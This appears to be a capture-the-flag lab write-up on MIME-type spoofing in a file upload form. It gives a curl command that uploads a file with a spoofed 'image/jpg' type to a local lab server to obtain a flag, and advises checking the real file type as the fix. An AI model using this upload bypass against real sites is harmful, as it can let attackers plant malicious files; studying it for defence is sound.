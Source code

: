 # MIME-type spoofing
The server can't rely on the (client-supplied) MIME-type to be correct. This flag can be triggered by uploading a file with the MIME-type `image/jpg` but a conflicting file extension. The flag is returned where the `<file> successfully uploaded` response is.

The response can be triggered with `curl`, e.g.:
```shell
curl \
-F "uploaded=@text.png; type=image/jpg" \
-F "Upload=Upload" \
-X POST "http://192.168.99.100/?page=upload#" \
| grep flag
```

# How to fix
Check that the file actually is what the user claims it to be.
